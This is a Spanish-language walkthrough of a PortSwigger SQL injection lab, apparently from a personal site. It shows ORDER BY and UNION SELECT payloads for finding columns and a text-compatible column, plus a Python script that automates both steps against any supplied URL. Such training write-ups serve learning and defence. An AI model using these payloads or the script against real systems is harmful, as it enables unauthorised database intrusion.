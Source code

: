 ```yaml
---
title: "04 SQL injection UNION attack, finding a column containing text"
collection: publications
category: portswigger
permalink: /publications/SQLi/04_SQL injection UNION attack, finding a column containing text
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Para resolver el laboratorio, realizamos un ataque de inyección SQL que devuelve una fila adicional que contiene el valor proporcionado. Esta técnica nos ayuda a determinar qué columnas son compatibles con datos de cadena.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, finding a column containing text'
---
```


![logo]({{site.url}}/images/SQLi/sqli-4/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-4/descripcion.png)

## Objetivo del laboratorio

Realizar un ataque de inyección SQL UNION que devuelva una fila adicional que contenga el valor proporcionado. Esta técnica le ayudará a determinar qué columnas son compatibles con datos de cadena.

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 3 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Columnas]({{site.url}}/images/SQLi/sqli-4/columnas.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL, NULL--
' UNION SELECT NULL, 'A', NULL--
' UNION SELECT NULL, NULL, 'A'--
```

Como se observa el campo 2 es inyectable.

![Inyectable]({{site.url}}/images/SQLi/sqli-4/valor string.png)

Ahora procedemos a ingresar el valor que nos proporciona la plataforma a inyectar y poder completar el laboratorio

![Inyectable 2]({{site.url}}/images/SQLi/sqli-4/valor string 2.png)

```javascript
' UNION SELECT NULL, '7niuyJ', NULL--
```

![Inyectable]({{site.url}}/images/SQLi/sqli-4/Resuelto.png)

# Codigo Python
```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_column_number(url):
    path = "/filter?category=Gifts"
    for i in range(1,50):
        sql_payload = "'+order+by+%s--" %i
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if "Internal Server Error" in res:
            return i -1
        i = i + 1
    return False

def exploit_sqli_string_field(url, num_col):
    path = "/filter?category=Gifts"
    for i in range(1, num_col+1):
        string = "'92xeVZ'"
        payload_list = ['null'] * num_col
        payload_list[i-1] = string
        sql_payload = "' union select " + ','.join(payload_list) + "--"
        r = requests.get(url +path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if string.strip('\'') in res:
            return i
    return False

if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print('[-] Usage: %s <url>' % sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)

    print("[+] Figuring out number of columns...") 
    num_col = exploit_sqli_column_number(url)
    if num_col:
        print("[+] The number of columns is " + str(num_col) + ".")
        print("[+] Figuring out which column contains text...")
        string_column = exploit_sqli_string_field(url, num_col)
        if string_column:
            print("[+] The column that contains text is " + str(string_column)+".")
        else: 
            print("[-] We were not able to find a colimn that has a string data type.")
    else:
        print("[-] The SQLi attack was not successful.")
```